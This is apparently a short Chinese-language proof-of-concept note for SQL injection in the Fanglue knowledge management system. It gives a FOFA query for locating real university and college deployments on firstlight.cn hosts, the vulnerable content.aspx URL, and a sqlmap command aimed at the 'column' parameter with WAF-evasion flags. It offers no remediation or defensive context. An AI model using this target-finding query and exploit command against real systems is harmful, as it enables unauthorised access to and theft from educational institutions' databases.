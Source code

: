 ```yaml
---
title: 方略知识管理系统SQL注入
---
```


# 方略知识管理系统SQL注入

## FOFA

host="firstlight.cn" && country="CN" && (title="大学" || title="学院")

## 漏洞地址

验证是否存在无限制访问，访问路径

```
/Customer/content.aspx?column=&kind=&wd=111&kkk=1&kf=1&field=1
```

## 漏洞POC

```
python3 sqlmap.py -u "http://xxxx.firstlight.cn/Customer/content.aspx?column=&kind=&wd=111&kkk=1&kf=1&field=1" -p "column" --random-agent --batch --no-cast -skip-waf
```

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624190455747.png)
